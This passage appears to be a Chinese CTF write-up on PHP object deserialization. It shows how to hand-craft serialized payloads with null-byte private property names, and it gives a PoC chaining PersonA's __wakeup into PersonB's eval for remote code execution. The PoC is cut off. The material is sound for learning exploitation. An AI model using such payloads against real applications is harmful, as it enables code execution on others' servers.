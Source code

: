 要点提示：

- 用 `newInstanceWithoutConstructor()` 跳过构造器（若需可直接 new）。
- `setAccessible(true)` 使 private 可写。

方法 B — 手工构造序列化字符串（直接输出 payload）

要点：私有属性键名格式为 `"\0ClassName\0prop"`（含 null byte），序列化格式需准确的字节长度（`strlen`）。

```php
<?php
class PersonA { private $name; function __wakeup(){} }
class PersonB { public $name; function work(){} }

// 先序列化属性值（这里是 PersonB 实例）
$b = new PersonB(); $b->name = 'payload';
$serializedB = serialize($b);

// 构造私有属性键名（含 null 字节）
$key = "\0" . "PersonA" . "\0" . "name";
$klen = strlen($key);

// 拼接最终 payload（单属性示例）
$payload = sprintf('O:%d:"%s":1:{s:%d:"%s";%s}',
    strlen("PersonA"), "PersonA",
    $klen, $key,
    $serializedB
);

echo $payload, PHP_EOL;

```

要点提示：

- 私有属性键名必须包含 `\0ClassName\0prop`（字节计数）。
- `strlen()` 用于字节长度计算（非常重要）。

然后我们审题，给了我们两个类`PersonA`和`PersonB`。注意到可利用的eval在`PersonB`但是我们无法直接调用work方法，而`PersonA`的`_wakeup`魔法方法提供了调用任何方法的机会，于是思路就是通过`PersonA`调用`PersonB`的work方法达到RCE。

PoC 如下:

```php
<?php
class PersonA {
    private $name;
    function __wakeup() {
        $name=$this->name;
        $name->work();
    }
}

class PersonB {
    public $name;
    function work(){
        $name=$this->name;
        eval($name);
    }

}

$rc = new ReflectionClass('PersonA');
$obj = $rc->newInstanceWithoutConstructor();

$prop = $rc->getProperty('name');
$prop->setAccessible(true);

```